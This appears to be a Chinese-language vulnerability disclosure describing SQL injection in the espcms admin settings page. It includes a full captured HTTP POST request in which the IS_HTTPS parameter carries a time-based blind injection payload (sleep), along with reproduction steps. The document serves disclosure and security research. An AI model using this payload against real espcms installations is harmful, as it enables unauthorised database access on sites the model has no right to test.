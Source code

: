 espcmsSQL注入漏洞
https://www.ecisp.cn/html/cn/download_espcms/


phpstudy安装
代码审计
espcms_admin/control/SettingMain.php
在更新网站配置时，key和value的值是直接拼接进去的，因此存在SQL注入漏洞
[1.jpg](https://github.com/Appeal-specific/espcmsSQL-/blob/main/1.jpg)

漏洞复现
安装成功后进入网站后台
点击设置->系统设置->确定保存
[2.jpg](https://github.com/Appeal-specific/espcmsSQL-/blob/main/2.jpg)
并抓包，数据包如下

POST /espcms_admin/index.php?act=FuNYwqPAgpSXj4m5d2npHEownomPfTf6l4%2BJuXdp6Rxja3m%2FkIeu1g%3D%3D HTTP/1.1
Host: 192.168.1.101
Content-Length: 518
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:espcms_admin_user_info=D30R5LB5F3tzA96zEfkI6K7agHgeLvgeUCjwWtnFKKTTijDU563rtvbF2%2BZPKt2AFV%2FSBefbEwhwz2Y4v8O0d%2BdSQVPrIuV5fe5dP91YUivEt6JhJx2lVtgz01pzBwvJiXfG1EXATRSNiOProF6Mh2%2BJcTXlrQLBPE42ycga1aPOVdHT7xyMJZSrp%2BGetH8CZ7pyHUpFWROqoCt5hHO7xM48Ebz3UEVruMjbJJLUxFFsmWoMFL%2BdMJJlmOFXe%2BPZS5r5Pja02zjNFbgcjakujmffPpqYlJW6HJe0U1xNfGJm6SjW%2BhaseaBLNIfVLDpuTqJPkgKcVePiqoUBqATOVWskGbjhbduHQfNOtLFwurCZa7SxuSlT6UJIDyQr9hM1DgJnDcrZn57WF43ah3ACdbmk4G5o5uK%2BeIkF5IGBgDmNGt0n35hr6qqgK3mEc7vE%2FRhR1PSyNGBSnjg5c6Yd3MY7MGREbfve; 
Connection: close

token_key=&token_name=&config_name=%E5%9F%BA%E6%9C%AC%E5%8F%82%E6%95%B0%E8%AE%BE%E7%BD%AE&SITENAME=123456&WEB_ICON_16=upfile%2Fespcms_16.png&WEB_ICON_32=upfile%2Fespcms_32.png&WEB_ICON_64=upfile%2Fespcms_64.png&IS_CLOSE=0&CLOSE_CONTENT=&ADMINE_MAIL=123%40qq.com&IS_LOG=1&IS_GZIP=1&DEFAULT_LNG=cn&IS_ALONELNG=1&HOME_LNG=cn&IS_HTML=1&IS_REWRITE=0&ENTRANCE_FILE=index&IS_HTMLDIR=1&FILE_HTMLDIR=html%2F&IS_GETCACHE=1&IS_CACHING=1&CACHE_TIME=3600&HTTP_PATHTYPE=1&TIP_SEARCHTIME=30&IS_HTTPS'and/**/(sleep(3))and'1'%3d'1=http

修改请求体中的IS_HTTPS为IS_HTTPS'and/**/(sleep(2))and'1'%3d'1
[3.jpg]https://github.com/Appeal-specific/espcmsSQL-/blob/main/3.jpg
[4.jpg]https://github.com/Appeal-specific/espcmsSQL-/blob/main/4.jpg

Sleep()函数成功执行，因此存在SQL注入漏洞

